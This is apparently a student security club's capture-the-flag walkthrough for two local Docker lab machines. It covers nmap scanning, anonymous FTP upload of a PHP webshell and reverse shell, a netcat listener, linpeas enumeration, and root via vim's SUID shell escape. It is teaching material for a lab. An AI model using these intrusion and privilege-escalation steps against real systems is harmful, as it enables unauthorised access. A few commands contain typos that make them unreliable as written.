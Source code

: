 # ComSec Introduction Writeup


## Nmap 1
Welcome to ComSec's first challenge! This week we will be targeting a docker container, to start it, issue the following two commands:

```sh
$ wget https://cov-comsec.github.io/posts/welcome_nmap/c1/docker-compose.yaml
$ sudo docker-compose up
[sudo] password for kali: 
WARNING: Found orphan containers (kali_evilweb_1) for this project. If you removed or renamed this service in your compose file, you can run this command with the --remove-orphans flag to clean it up.
Recreating kali_ftp_1  ... done
Recreating kali_smtp_1 ... done
Starting kali_ssh_1    ... done
Creating kali_web_1    ... done
Attaching to kali_web_1, kali_ssh_1, kali_smtp_1, kali_ftp_1
ftp_1   | Starting Pure-FTPd:
ftp_1   |   pure-ftpd  -c 30 -C 10 -l puredb:/etc/pure-ftpd/pureftpd.pdb -j -R -P localhost -p 30000:30059  
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | [Fri Oct 22 23:08:37.325178 2021] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.25 (Debian) PHP/7.3.4 configured -- resuming normal operations
web_1   | [Fri Oct 22 23:08:37.326184 2021] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
```
**NB:** Despite the output, the target machine will be launched at 192.168.42.1!

### Nmap Scan
Now the point of this week is to learn Nmap, so lets start a scan with service detection and scripting turned on:

```sh
$ nmap -sV -sC 192.168.42.1 -T4
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 19:14 EDT
Nmap scan report for 192.168.42.1
Host is up (0.00021s latency).
Not shown: 996 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 127.0.0.1 is not the same as 192.168.42.1
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f5:f2:1d:64:04:1b:fd:92:22:7e:6b:71:b7:f4:72:49 (RSA)
|   256 4b:80:f8:74:c0:8d:aa:40:fc:38:02:16:9f:1c:3b:bd (ECDSA)
|_  256 a8:08:e5:35:12:d6:a4:cc:74:8f:4c:9c:02:62:f4:f1 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: 8d1d2dc2ddf0.lan, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=8d1d2dc2ddf0
| Subject Alternative Name: DNS:8d1d2dc2ddf0
| Not valid before: 2020-08-14T10:33:23
|_Not valid after:  2030-08-12T10:33:23
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ftp-uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  8d1d2dc2ddf0.lan; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

It looks like we have 4 ports open. Let's check out the [web server](http://192.168.42.1).

From the scan, we can see that there is a directory named [/ftp-uploads](http://192.168.42.1) and we can see that a flag file has been stored.

![ftpanonymous](imgs/ftp_anonymous.png)

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.

```bash
ftp 192.168.42.1
```
You will be asked to input the Name. You just have to type anonymous to connect.
If you do a "ls" you will be able do see the a file called FTPflag.txt which is the same file you found in the website. You type help you will see as the commands that you can use inside the ftp, we want to upload p0wnyshell so that we can get access to the machine through the browser. For now you just need to know that we are using p0wnyshell as our reverse-shell. So "ctrl+c" to stop the ftp connection clone p0wny shell repository [P0wny-Shell](http://github.com/flozz/p0wny-shell.git).
```bash
cd p0wny-shell
ftp 192.168.42.1
put shell.php
```
The last command is going to upload our shell.
If you go back to your browser and back to "/ftp-uploads/anonymous" you will see the file shell.php in there clicked and you will have p0wny-shell.![p0wny-shell](imgs/pwnyshell.png) So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
```bash
find / -name "*.txt" 2>/dev/null
```
![findcommand](imgs/find_command.png)

Congratulations! Lets move to docker2

## Nmap 2

To start this challenge, use:

```sh
wget https://cov-comsec.github.io/posts/welcome_nmap/c2/docker-compose.yaml
docker-compose up
```

So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports from the [StandardPorts](imgs/commonports.pdf)

```bash
sudo nmap -sC -sV 192.168.42.1 -p-
```

![nmap2scan](imgs/nmap_2_scan.png)

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080".
So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"
```bash
ftp 192.168.42.1 2121
```
Again use anonymous as login. 
In this challegne we introduced privesc so we will need a scrip to enumerate all te services that are being run on the machine, file permissions, file types, sym links ,etc.
There are 2 that are I know, LinEnum and linpeas. I prefer [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh){target=_blank}, instead of cloning the repository what I did is I open my prefered text editor on my kali box and I just copy/pasted the script. Then I stopped the ftp connection I cd to the directory where I have linpeas, I started the connection again and use the "put linpeas.sh" to copy linpeas to the machine. Besides linpeas we will need a php reverse shell, cause p0wny shell is not going to work in this challenge. Another good resource to put in your bookmarks, [PentestMonkeys](https://github.com/pentestmonkey/php-reverse-shell){target=_blank} I did the same process with both linpeas and the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){target=_blank} so open your editor and "ctrl+c / ctrl+v" put hte ip of your kali box in the line where you see "" \\change this" and upload the file to the ftp.
So right now you should see something like this 

![ftpfodler](imgs/uploads2.png)

Which means you ready. Open a terminal and start netcat.
```bash
nc -lvnp 1234
```
Go to "192.168.42.1:8080/ftp-uploads/php-reverse-shell.php" the site should be loading for ever. If you go back to your terminal you should have access to the box.
Tip: everytime I get a reverse shell I try to find out what user I am.
```bash
whoami
```
Lets not forget we are in /var/www , we need to copy our linpeas script to tmp folder.
```bash
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh
```
Take a look at the output and try to find the SUID section. If you don't know SUID is a type of permission that you have on linux that let's the user run the file or binary. 

![linpeas](imgs/linpeas.png)

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called [GTFOBins](https://gtfobins.github.io/) which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command. 

```sh
:!/bin/sh
#or
vim -c ':!/bin/sh'
```

Now you are root!

```sh
cd /root
cat flag.txt
```

Congratulations on solving the first ComSec challenge. Don't forget to submit your flags on CTFd. If you need any help, feel free to comment below or contact us on discord!

